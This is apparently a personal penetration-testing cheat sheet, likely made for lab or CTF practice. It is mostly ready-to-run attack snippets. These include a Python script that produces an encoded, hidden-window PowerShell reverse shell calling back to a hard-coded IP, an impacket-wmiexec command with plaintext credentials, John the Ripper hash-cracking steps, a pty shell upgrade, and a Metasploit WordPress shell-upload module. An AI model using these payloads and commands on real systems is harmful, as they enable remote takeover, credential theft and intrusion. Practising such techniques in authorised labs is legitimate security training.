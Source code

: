```yaml
---
{"dg-publish":true,"permalink":"/misc/"}
---
```


---------------
### Windows Encoded Revshell Python Script:
```python
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.166",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
print(cmd)
```
### Remote shell with PSExec
```
sudo /usr/bin/impacket-wmiexec joe:Flowers1@172.16.231.11
```
### John hash-cracking:
``` bash
#Ta reda på hashtypen
hashid -e -j '<hash>'
hash-identifier <hash>

#Cracka med dictionary
john --wordlist=rockyou.txt --rules=regelnamn --format=<hashidformat> hash.txt

#Visa hashen igen
john --show pass.txt
```
#### Importera /bin/bash med python:
``` bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```
#### WordPress-login Shell:
``` bash
sudo msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
```
### Windows file locate in CMD:
``` powershell
cd C:/ && dir "<filename>" /s /b
```
### Windows file locate in PowerShell:
``` powershell
#General file/directory locate
Get-ChildItem -Path C:\ -Include "<name>" -File -Recurse -ErrorAction SilentlyContinue

#Locate specific file-format
Get-ChildItem -Path C:\ -Include *.<format> -File -Recurse -ErrorAction SilentlyContinue

#Locate flag.txt from current dir:
Get-ChildItem -Path .\ -Include "flag.txt" -File -Recurse -ErrorAction SilentlyContinue
```